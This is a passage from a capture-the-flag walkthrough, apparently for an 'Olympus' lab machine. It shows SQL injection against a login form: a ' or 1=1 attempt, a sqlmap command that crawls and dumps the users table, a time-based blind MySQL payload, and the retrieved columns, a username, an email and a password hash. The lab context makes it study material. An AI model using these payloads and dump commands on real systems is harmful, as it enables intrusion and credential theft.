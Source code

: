 Testing the search box for **SQLi** shows:

![](images/olympus5.png)

I try to login as root with ' or 1=1 as the password and it doesn't actually do anything.

<br>

## SQLi

Let's see what **sqlmap** finds for us:

`sqlmap -u http://olympus.thm/~webmaster -T users --dump --forms --crawl=2 --batch`

```
sqlmap identified the following injection point(s) with a total of 144 HTTP(s) requests:
---
Parameter: user_name (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user_name=MxlA' AND (SELECT 6854 FROM (SELECT(SLEEP(5)))CfPK) AND 'hbcl'='hbcl&user_password=&login=tDoN
```

In the olympus database it found 9 columns for the users table:

```
[10:16:20] [INFO] fetching columns for table 'users' in database 'olympus'
[10:16:20] [INFO] retrieved: 9
[10:16:33] [INFO] retrieved: randsalt
[10:18:15] [INFO] retrieved: user_email
[10:20:27] [INFO] retrieved: user_firstname
[10:23:34] [INFO] retrieved: user_id
[10:25:16] [INFO] retrieved: user_image
[10:27:24] [INFO] retrieved: user_lastname
[10:30:18] [INFO] retrieved: user_name
[10:32:22] [INFO] retrieved: user_password
[10:35:32] [INFO] retrieved: user_role
```

And it found 3 users starting with **prometheus**:

```
[10:38:04] [INFO] retrieved: 
[10:38:16] [INFO] retrieved: prometheus@olympus.thm
[10:41:06] [INFO] retrieved: prometheus
[10:42:22] [INFO] retrieved: 3
[10:42:29] [INFO] retrieved: 
[10:42:29] [INFO] retrieved: 
[10:42:30] [INFO] retrieved: prometheus
[10:43:46] [INFO] retrieved: $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C
[10:52:14] [INFO] retrieved: User
```
